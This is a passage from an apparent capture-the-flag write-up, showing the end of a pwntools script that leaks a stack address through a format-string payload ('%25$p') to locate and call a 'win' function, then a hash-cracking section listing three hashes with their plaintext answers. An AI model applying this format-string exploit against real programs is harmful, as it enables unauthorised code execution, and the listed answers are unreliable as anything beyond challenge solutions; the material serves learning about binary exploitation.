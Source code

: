 ```python
    unset env COLUMNS
    break call_functions
    continue
    ''')
elif (sys.argv[1] == "remote"):
    p = remote(ip,port)
else:
    print(f"Invalid argument to e.py: '{sys.argv[1]}'. Did you mean 'dbg'?")
    sys.exit(1)
'''
payload = b'AAAAAAAAAAAA %47$p'
p.sendline(payload)
p.recvuntil("AA ")
offset = int(p.recvline(),16)
main = offset + 0x240
elf.address = main - elf.sym['main']
x = elf.sym['win']
x = hex(x)
p.sendline(x)
'''

payload = b'AAAAAAAAAAAA %25$p'
p.sendline(payload)
p.recvuntil("AA ")
main = int(p.recvline(),16)
elf.address = main - elf.sym['main']
x = elf.sym['win']
x = hex(x)
p.sendline(x)

p.interactive()
```

# Cryptography

## hashcrack

* Hashes can all be cracked using crackstation
  * password123
  * letmein
  * qwerty098

```
482c811da5d5b4bc6d497ffa98491e38
b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3
916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745
```